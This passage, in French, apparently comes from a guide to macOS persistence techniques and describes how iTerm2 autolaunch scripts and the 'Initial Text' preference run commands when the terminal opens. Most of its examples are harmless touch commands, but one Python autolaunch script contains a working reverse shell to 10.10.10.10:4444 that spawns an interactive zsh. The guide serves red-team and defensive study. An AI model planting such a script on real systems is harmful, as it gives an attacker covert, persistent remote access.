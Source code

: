 #### Locations

- **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`**
- **Déclencheur** : Ouvrir iTerm
- **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`**
- **Déclencheur** : Ouvrir iTerm
- **`~/Library/Preferences/com.googlecode.iterm2.plist`**
- **Déclencheur** : Ouvrir iTerm

#### Description & Exploitation

Les scripts stockés dans **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch`** seront exécutés. Par exemple :
```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh" << EOF
#!/bin/bash
touch /tmp/iterm2-autolaunch
EOF

chmod +x "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.sh"
```
ou :
```bash
cat > "$HOME/Library/Application Support/iTerm2/Scripts/AutoLaunch/a.py" << EOF
#!/usr/bin/env python3
import iterm2,socket,subprocess,os

async def main(connection):
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['zsh','-i']);
async with iterm2.CustomControlSequenceMonitor(
connection, "shared-secret", r'^create-window$') as mon:
while True:
match = await mon.async_get()
await iterm2.Window.async_create(connection)

iterm2.run_forever(main)
EOF
```
Le script **`~/Library/Application Support/iTerm2/Scripts/AutoLaunch.scpt`** sera également exécuté :
```bash
do shell script "touch /tmp/iterm2-autolaunchscpt"
```
Les préférences d'iTerm2 situées dans **`~/Library/Preferences/com.googlecode.iterm2.plist`** peuvent **indiquer une commande à exécuter** lorsque le terminal iTerm2 est ouvert.

Ce paramètre peut être configuré dans les paramètres d'iTerm2 :

<figure><img src="../images/image (37).png" alt="" width="563"><figcaption></figcaption></figure>

Et la commande est reflétée dans les préférences :
```bash
plutil -p com.googlecode.iterm2.plist
{
[...]
"New Bookmarks" => [
0 => {
[...]
"Initial Text" => "touch /tmp/iterm-start-command"
```
Vous pouvez définir la commande à exécuter avec :
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" 'touch /tmp/iterm-start-command'" $HOME/Library/Preferences/com.googlecode.iterm2.plist

```